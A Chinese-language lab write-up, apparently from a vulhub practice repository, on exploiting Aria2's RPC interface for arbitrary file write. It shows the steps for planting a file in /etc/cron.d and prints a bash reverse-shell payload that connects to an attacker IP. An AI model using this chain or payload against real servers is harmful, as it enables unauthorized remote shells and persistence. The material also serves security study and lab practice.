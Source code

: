 ## Aria2任意文件写入漏洞

###### by ADummy

### 0x00利用路线

​			第三方UI与目标进行通信--->搭建http服务器--->让目标下载恶意文件--->定时任务执行--->反弹shell

### 0x01漏洞介绍

​			Aria2是一个轻量级，多协议，多源下载工具（支持HTTP / HTTPS，FTP，BitTorrent，Metalink），内置XML-RPC和JSON-RPC接口。在有权限的情况下，我们可以使用RPC接口来操作aria2来下载文件，将文件下载至任意目录，造成一个任意文件写入漏洞。通过控制文件下载链接，文件储存路径以及文件名，可以实现任意文件写入。同时通过Aria2提供的其他功能，诸如save-session等也能轻易地实现任意文件写入指定功能

### 0x02漏洞复现

##### **PAYLOAD:

```
#! /bin/bash
/bin/bash -i >& /dev/tcp/192.168.15.128/8888 0>&1
```

​			**6800是aria2的rpc服务的默认端口，环境启动后，访问http://your-ip:6800/，看到一个空白页面，通过bp抓包可以看到返回了404，说明服务已启动**

![Aria2任意文件写入漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Aria2任意文件写入漏洞_1.jpg)

​			**由于rpc通信需要json或xml，因此不方便，因此我们可以使用第三方UI与目标进行通信，例如http://binux.github.io/yaaw/demo/**

​			**打开yaaw，单击配置按钮，然后填写运行aria2：的目标域名`http://your-ip:6800/jsonrpc`**

![Aria2任意文件写入漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Aria2任意文件写入漏洞_2.jpg)

​			**python创建一个简单的服务器。**

Python2 ：python2 -m SimpleHTTPServer 8000
Python3 ：python3 -m http.server 8000

![Aria2任意文件写入漏洞_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Aria2任意文件写入漏洞_3.jpg)

![Aria2任意文件写入漏洞_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Aria2任意文件写入漏洞_4.jpg)

​			**搭建成功后访问一下，可以看到写好的shell文件**

![Aria2任意文件写入漏洞_5](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Aria2任意文件写入漏洞_5.jpg)

​			**然后单击“添加+”以添加新的下载任务。在“目录”（Dir）字段中填写要下载文件的目录，并在“文件名”（File Name）字段中填写所需的文件名。例如，我们将通过编写crond任务来下载反向shell程序**

![Aria2任意文件写入漏洞_6](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Aria2任意文件写入漏洞_6.jpg)

​			**此时，arai2会将恶意文件（您指定的URL）下载到/etc/cron.d/目录中，文件名为“ shell”。在debian中，/ etc / cron.d目录中的所有文件都将作为计划任务配置文件（如crontab）读取。编写完成后，我们必须等待一分钟才能执行反向Shell脚本**



#### 此处环境有问题，等了很久都没反弹到shell，看人家说是1分钟左右，于是找了下原因，在这篇博客中https://www.cnblogs.com/foe0/p/11353506.html博主就说了大概率是靶场环境不完整导致的。既然他定时任务动不了，那我自己动手不过分吧

![](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Aria2任意文件写入漏洞_7.jpg)

![Aria2任意文件写入漏洞_8](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Aria2任意文件写入漏洞_8.jpg)

```
如果反向Shell不成功，请注意crontab文件的格式，并且换行符必须为`\n`，并且文件末尾需要换行符
```



### 0x03参考资料

https://www.dtmao.cc/news_show_469672.shtml

其他利用方法:https://paper.seebug.org/120/



